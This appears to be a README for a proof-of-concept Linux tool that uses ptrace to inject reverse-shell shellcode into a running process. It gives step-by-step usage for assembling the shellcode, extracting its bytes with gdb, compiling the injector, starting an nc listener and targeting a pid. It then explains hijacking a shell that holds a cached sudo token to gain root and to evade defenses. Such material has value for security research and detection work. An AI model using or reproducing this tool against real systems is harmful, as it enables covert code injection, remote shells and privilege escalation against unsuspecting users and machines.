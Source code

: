 # ptrace_injection
Proof of concept code to use ptrace on Linux systems for injecting code in an existing process. It attaches to the given pid, halts it's execuation, backs up current instructions, injects shellcode (which forks a child process) and resumes the execution from the backed up instructions.

### Usage

- Compile shell code

```
as reverse_shell.s -o reverse_shell.o
ld reverse_shell.o -o reverse_shell
```
- Get the shellcode with gdb

```
gdb ./reverse_shellcode

(gdb) x/185bx _start+0

```
- Modify shellcode in `ptrace_injection.c` and compile

```
gcc ptrace_injection.c -o ptrace_injection
```
- Setup reverse shell listener and run against a target pid

```
nc -lvp 4444
```

```
./ptrace_injection 1234
```


### Details

Linux comes with an interesting system call `ptrace` which can be abused to elevate privileges and steal sensitive information. It provides a means by which one process (the "tracer") may observe and control the execution of another process (the "tracee"), and examine and change the tracee's memory and registers.

With `ptrace` we can write data into the process effectively achieving the ability to inject code into an existing process. This can be very handy for defense evasion and potentially achieve privilege escalation. 

By default many distributions have sudo caching enabled. When a shell process invokes sudo, system caches the password in the form of a token which is valid for certain amount of time so password is not required for any further sudo commands invoked by the same shell until the timer expires. By injecting our shell-code into such shell process, we can effectively become root.
